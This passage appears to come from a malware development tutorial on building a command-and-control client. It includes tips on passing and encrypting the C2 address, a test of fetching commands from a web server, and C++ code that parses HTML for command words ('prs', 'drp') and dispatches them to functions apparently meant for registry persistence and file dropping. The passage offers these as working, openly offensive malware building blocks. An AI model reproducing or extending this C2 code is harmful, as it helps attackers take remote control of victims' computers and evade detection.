 
> Hardcoding the IP of the C2 like this inside the function is not the best thing to do, you can pass the URL to the function as a parameter, that will be more practical, and also to do some encoding or encryption, Try it out and modify the code :).

Let's do a quick test to see if the function works properly, don't forget the running web server.

We can put a breakpoint at the end of the function to check the final buffer:

![P2](/assets/images/malware-development/5-1.png)

As we can see we have successfully been able to fetch and save data.

The next step will be parsing the HTML and looking for our commands and choose the functionality based on it.

# Parsing c2 commands

We can write a simple function to parse the data and locate exactly the location of our command, As we stated earlier the command will be between <\strong> tags:

```cpp
void parseHTML(wchar_t* html) {
  const wchar_t* start_tag = L"<strong>";
  const wchar_t* pos = wcsstr(html, start_tag);
  if (pos != NULL) {
  
    pos += wcslen(start_tag);
    wchar_t word[4] = { 0 };
    wcsncpy_s(word, pos, 3);

    if (wcscmp(word, L"prs") == 0) {

      RegAct();
    }
    else if (wcscmp(word, L"drp") == 0) {

      FileAct();
    }
  }
}
```
